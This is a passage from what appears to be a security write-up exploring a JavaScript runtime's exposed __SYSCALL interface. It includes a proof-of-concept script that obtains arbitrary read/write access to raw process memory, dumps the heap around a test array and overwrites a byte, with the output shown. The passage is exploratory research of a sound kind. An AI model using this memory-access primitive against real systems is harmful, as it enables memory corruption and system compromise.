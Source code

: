```c
  auto abv8 = v8::ArrayBuffer::New(iv8, ptr, length, v8::ArrayBufferCreationMode::kExternalized);
  args.GetReturnValue().Set(abv8);
}
```

So, looks like `getSystemResources().memoryRange` is a `ResourceMemoryRangeObject` which
contains a method `block()` that takes a base address and size, and that block can be
accessed with `buffer()`. In other words, *it's a literal block of memory*. Let's try it
out:

```javascript
arr = new Uint8Array(17)
arr.fill(0x41) //'A'
addr = __SYSCALL.bufferAddress(arr)[1]
console.log("ARR: "+addr.toString(16))

mem = new Uint8Array(__SYSCALL.getSystemResources().memoryRange.block(addr-0x10, 0x50).buffer())
for (var i = 0; i < mem.length; i += 8)
{
    hex = ""
    for (var j = 0; j < 8; j++)
    {
        var t = mem[i+j].toString(16)
        if (t.length == 1)
            t = "0"+t
        hex = t+hex
    }
    console.log((addr+i).toString(16)+": "+hex)
}
console.log("BEFORE: "+mem[0])
mem[0] = 17
console.log("AFTER: "+mem[0])

```

This gives us:

```
ARR: 1e6e4d80
1e6e4d80: 0065006e006f0065
1e6e4d88: 0000000000000023
1e6e4d90: 4141414141414141
1e6e4d98: 4141414141414141
1e6e4da0: 0000000000000041
1e6e4da8: 0000000000000023
1e6e4db0: 00000080201a6cf8
1e6e4db8: 0000000000000000
1e6e4dc0: 000000802102a7d0
1e6e4dc8: 0000000000000023
BEFORE: 101
AFTER: 17
```

Those 'A's certainly look like our array (and 0x23 is pretty close to the size, probably
heap metadata), and we can write to it too!  
